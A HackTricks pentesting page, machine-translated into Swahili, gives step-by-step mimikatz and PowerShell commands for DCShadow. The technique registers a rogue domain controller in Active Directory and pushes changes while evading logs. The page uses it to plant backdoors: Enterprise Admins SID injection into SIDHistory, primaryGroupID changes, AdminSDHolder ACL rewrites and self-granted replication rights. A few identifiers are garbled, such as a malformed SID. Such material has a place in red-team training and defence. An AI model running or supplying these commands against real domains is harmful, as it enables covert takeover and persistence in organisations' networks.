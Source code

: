 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Inajisajili **Meneja wa Kikoa** mpya katika AD na inatumia ku **sukuma sifa** (SIDHistory, SPNs...) kwenye vitu vilivyotajwa **bila** kuacha **kumbukumbu** yoyote kuhusu **mabadiliko**. Unahitaji **privileges za DA** na uwe ndani ya **kikoa cha mzizi**.\
Kumbuka kwamba ikiwa utatumia data mbaya, kumbukumbu mbaya sana zitaonekana.

Ili kufanya shambulio unahitaji mifano 2 ya mimikatz. Moja yao itaanzisha seva za RPC kwa ruhusa za SYSTEM (lazima uonyeshe hapa mabadiliko unayotaka kufanya), na mfano mwingine utatumika kusukuma thamani:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Inahitaji DA au sawa" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Kumbuka kwamba **`elevate::token`** haitafanya kazi katika `mimikatz1` session kwani hiyo iliongeza haki za thread, lakini tunahitaji kuongeza **haki za mchakato**.\
Unaweza pia kuchagua na "LDAP" kitu: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Unaweza kusukuma mabadiliko kutoka kwa DA au kutoka kwa mtumiaji mwenye ruhusa hizi za chini:

* Katika **kitu cha domain**:
* _DS-Install-Replica_ (Ongeza/ondoa Replica katika Domain)
* _DS-Replication-Manage-Topology_ (Simamia Topolojia ya Replika)
* _DS-Replication-Synchronize_ (Sawaisha Replika)
* Kitu cha **Sites** (na watoto wake) katika **konteina ya Configuration**:
* _CreateChild and DeleteChild_
* Kitu cha **kompyuta ambacho kimeandikishwa kama DC**:
* _WriteProperty_ (Sio Andika)
* Kitu cha **lengo**:
* _WriteProperty_ (Sio Andika)

Unaweza kutumia [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) kutoa ruhusa hizi kwa mtumiaji asiye na haki (kumbuka kwamba hii itacha baadhi ya kumbukumbu). Hii ni ya kikomo zaidi kuliko kuwa na ruhusa za DA.\
Kwa mfano: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` Hii inamaanisha kwamba jina la mtumiaji _**student1**_ anapokuwa kwenye mashine _**mcorp-student1**_ ana ruhusa za DCShadow juu ya kitu _**root1user**_.

## Kutumia DCShadow kuunda milango ya nyuma

{% code title="Set Enterprise Admins in SIDHistory to a user" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Badilisha PrimaryGroupID (weka mtumiaji kama mwanachama wa Wasimamizi wa Kikoa)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Badilisha ntSecurityDescriptor ya AdminSDHolder (peana Udhibiti Kamili kwa mtumiaji)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Toa DCShadow ruhusa kwa kutumia DCShadow (hakuna kumbukumbu za ruhusa zilizobadilishwa)

Tunahitaji kuongeza ACEs zifuatazo na SID ya mtumiaji wetu mwishoni:

* Kwenye kituo cha eneo:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Kwenye kituo cha kompyuta ya mshambuliaji: `(A;;WP;;;UserSID)`
* Kwenye kituo cha mtumiaji wa lengo: `(A;;WP;;;UserSID)`
* Kwenye kituo cha Tovuti katika kontena ya Mipangilio: `(A;CI;CCDC;;;UserSID)`

Ili kupata ACE ya sasa ya kitu: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Kumbuka kwamba katika kesi hii unahitaji kufanya **mabadiliko kadhaa,** si moja tu. Hivyo, katika **mimikatz1 session** (RPC server) tumia parameter **`/stack` na kila mabadiliko** unayotaka kufanya. Kwa njia hii, utahitaji tu **`/push`** mara moja ili kutekeleza mabadiliko yote yaliyokamatwa kwenye seva ya rogue.

[**Taarifa zaidi kuhusu DCShadow katika ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki hila za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
